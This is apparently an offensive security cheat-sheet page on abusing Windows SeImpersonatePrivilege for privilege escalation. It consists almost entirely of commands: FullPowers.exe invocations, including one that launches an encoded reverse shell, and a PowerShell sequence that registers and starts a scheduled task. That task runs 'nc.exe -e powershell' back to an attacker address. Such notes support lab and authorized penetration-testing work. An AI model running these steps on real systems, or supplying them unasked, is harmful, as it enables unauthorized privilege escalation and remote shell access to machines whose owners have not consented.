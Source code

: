 ```yaml
---
title: "SeImpresonate"
date: 2024-8-2
tags: ["SeImpresonate", "Windows", "potato", "privesc", "fullpower"]
---
```


### Abuse #1: Recover SeImpresonate

```console
.\FullPowers.exe -c "whoami /priv"
```

```console
# Revshell
.\FullPowers.exe -c "<POWERSHELL_3_BASE64>"
```

<small>*Ref: [FullPower](https://github.com/itm4n/FullPowers/releases/tag/v0.1)*</small>

### Abuse #2: Recover tokens via schedule task

```console
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
```

```console
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "<SERVICE_ACCOUNT>" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

```console
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `C:\\Windows\\Tasks\\nc.exe -e powershell <LOCAL_IP> <LOCAL_PORT>`""
```

```console
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
```

```console
# Start the task
Start-ScheduledTask -TaskName "SomeTask"
```
